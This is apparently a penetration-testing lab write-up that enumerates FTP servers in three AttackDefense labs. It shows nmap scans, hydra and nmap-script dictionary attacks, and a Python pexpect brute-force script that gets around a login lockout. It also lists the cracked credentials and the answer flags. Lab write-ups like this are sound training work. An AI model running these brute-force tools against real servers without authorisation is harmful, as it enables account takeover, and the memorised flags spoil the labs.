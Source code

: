 # 🔬FTP Enum

**`FTP`** (**F**ile **T**ransfer **P**rotocol) - a *client-server* protocol used to transfer files between a network using TCP/UDP connections.

It requires a command channel and a data channel.

Default FTP port is **`21`**, opened when FTP is activated for sharing data.

```bash
sudo nmap -p21 -sV -sC -O <TARGET_IP>
```

## Lab 1

>  🔬 [ProFTP Recon: Basics](https://attackdefense.pentesteracademy.com/challengedetails?cid=518)
>
>  - Target IP: `192.217.238.3`
>  - Enumeration of [ProFTP](http://www.proftpd.org/) server

```bash
ip -br -c a
	eth1@if170718   UP   192.217.238.2/24
```

- Target IP is `192.217.238.3`

```bash
nmap 192.217.238.3
	21/tcp open  ftp
```

```bash
nmap -p21 -sV -O 192.217.238.3
```

```bash
21/tcp open  ftp     ProFTPD 1.3.5a
[...]
Service Info: OS: Unix
```

![nmap -p21](.gitbook/assets/image-20230215114930223.png)

> 📌 FTP server version is `ProFTPD 1.3.5a`.

### [ftp](https://linux.die.net/man/1/ftp)

- Try `anonymous:anonymous` login

```bash
ftp 192.217.238.3
# anonymous login failed
```

- Use `hydra` with some users/passwords word lists to check if any credentials work with the ftp server 

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/da
ta/wordlists/unix_passwords.txt 192.217.238.3 -t 4 ftp
```

```bash
[DATA] max 16 tasks per 1 server, overall 16 tasks, 7063 login tries (l:7/p:1009), ~442 tries per task
[DATA] attacking ftp://192.217.238.3:21/
[21][ftp] host: 192.217.238.3   login: sysadmin   password: 654321
[21][ftp] host: 192.217.238.3   login: rooty   password: qwerty
[21][ftp] host: 192.217.238.3   login: demo   password: butterfly
[21][ftp] host: 192.217.238.3   login: auditor   password: chocolate
[21][ftp] host: 192.217.238.3   login: anon   password: purple
[21][ftp] host: 192.217.238.3   login: administrator   password: tweety
[21][ftp] host: 192.217.238.3   login: diag   password: tigger
1 of 1 target successfully completed, 7 valid passwords found
```

![hydra user:password attack](.gitbook/assets/image-20230215115946164.png)

> 📌 Found credentials are:
>
> `sysadmin:654321`
> `rooty:qwerty`
> `demo:butterfly`
> `auditor:chocolate`
> `anon:purple`
> `administrator:tweety`
> `diag:tigger`

- Use [nmap ftp-brute script](https://nmap.org/nsedoc/scripts/ftp-brute.html) to find the `sysadmin`'s password

```bash
echo "sysadmin" > users
```

```bash
nmap --script ftp-brute --script-args userdb=/root/users -p21 192.217.238.3
```

```bash
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     sysadmin:654321 - Valid credentials
|_  Statistics: Performed 23 guesses in 6 seconds, average tps: 3.8
```

- Extract the 7 flags hidden on the server by logging in to the `ftp` server with each found user

```bash
ftp 192.217.238.3

ftp> ls
ftp> get secret.txt
ftp> exit

root@attackdefense:~# cat secret.txt 
```

<details>
<summary>Reveal Flag - sysadmin flag is: 🚩</summary>


`260ca9dd8a4577fc00b7bd5810298076`

</details>

<details>
<summary>Reveal Flag - rooty flag is: 🚩</summary>


`e529a9cea4a728eb9c5828b13b22844c`

</details>

<details>
<summary>Reveal Flag - demo flag is: 🚩</summary>


`d6a6bc0db10694a2d90e3a69648f3a03`

</details>

<details>
<summary>Reveal Flag - auditor flag is: 🚩</summary>


`098f6bcd4621d373cade4e832627b4f6`

</details>

<details>
<summary>Reveal Flag - anon flag is: 🚩</summary>


`1bc29b36f623ba82aaf6724fd3b16718`

</details>

<details>
<summary>Reveal Flag - administrator flag is: 🚩</summary>


`21232f297a57a5a743894a0e4a801fc3`

</details>

<details>
<summary>Reveal Flag - diag flag is: 🚩</summary>


`12a032ce9179c32a6c7ab397b9d871fa`

</details>

## Lab 2

>  🔬 [VSFTPD Recon: Basics](https://attackdefense.pentesteracademy.com/challengedetails?cid=519)
>
>  - Target IP: `192.119.169.3`
>  - Enumeration of [vsftpd](https://security.appspot.com/vsftpd.html) server

```bash
ip -br -c a
	eth1@if170803   UP  192.119.169.2/24
```

- Target IP is `192.119.169.3`

```bash
nmap 192.119.169.3
	21/tcp open  ftp
```

```bash
nmap -p21 -sV -O 192.119.169.3
```

```bash
21/tcp open  ftp     vsftpd 3.0.3
```

![](.gitbook/assets/image-20230215130759212.png)

> 📌 FTP server version `vsftpd 3.0.3`

- Use [nmap ftp-anon script](https://nmap.org/nsedoc/scripts/ftp-anon.html) to check `anonymous` user login

```bash
nmap --script ftp-anon -p21 192.119.169.3
```

```bash
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Dec 18  2018 flag
|_drwxr-xr-x    2 ftp      ftp          4096 Dec 18  2018 pub
```

> 📌 Anonymous FTP login allowed

```bash
ftp 192.119.169.3
# Use anonymous:anonymous to login
```

```bash
Name (192.119.169.3:root): anonymous
    331 Please specify the password.
Password:
    230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
ftp> get flag
ftp> exit

root@attackdefense:~# cat flag 
```

<details>
<summary>Reveal Flag: 🚩</summary>


`4267bdfbff77d7c2635e4572519a8b9c`

</details>

------

## Lab 3

>  🔬 [VSFTPD Recon: Dictionary Attack](https://attackdefense.pentesteracademy.com/challengedetails?cid=520)
>
>  - Target IP: `192.14.30.3`
>  - Dicotionary attack on `vsftpd` server
>  - *FTP server terminates the session after 3 attemps*

```bash
ip -br -c a
	eth1@if170888   UP   192.14.30.2/24 
```

- Target IP is `192.14.30.3`

```bash
nmap 192.14.30.3
	21/tcp open  ftp
```

```bash
nmap -p21 -sV -O 192.14.30.3
```

```bash
21/tcp open  ftp     vsftpd 3.0.3
```

```bash
echo "billy" > users

nmap --script ftp-brute --script-args userdb=/root/users -p21 192.14.30.3
```

```bash
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     billy:carlos - Valid credentials
|_  Statistics: Performed 78 guesses in 55 seconds, average tps: 1.5
```

> 📌 *billy*'s password is `carlos`

- A custom script to attemp the logins is required if automated dictionary attack do not work, since the server terminates the sessions after 3 login attempts.
- `e.g.` python script:

```bash
nano billy.py
```

```python
import pexpect
import sys
username=sys.argv[2]
password_dict=sys.argv[3]

# Loading the password dictionary and Striping \n
lines = [line.rstrip('\n') for line in open(password_dict)]

itr = 0
# Iterating over dictionary
for password in lines:
	child = pexpect.spawn ('ftp '+sys.argv[1])
	child.expect ('Name .*: ')
	child.sendline (username)
    print "Trying with password: ",password
	child.expect ('Password:')
	child.sendline (password)
	i = child.expect (['Login successful', 'Login failed'])
	if i==1:
		#print('Login failed')
		child.kill(0)
	elif i==0:
		print "Login Successful for ",password
		print child.before
		break
```

```bash
python billy.py 192.14.30.3 billy /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

```bash
Login Successful for  carlos
```

- Fetch the flag using `billy:carlos` credentials

```bash
ftp 192.14.30.3

ftp> ls
ftp> get flag
ftp> exit

root@attackdefense:~# cat flag
```

<details>
<summary>Reveal Flag: 🚩</summary>


`c07c7a9be16f43bb473ed7b604295c0b`

</details>

------

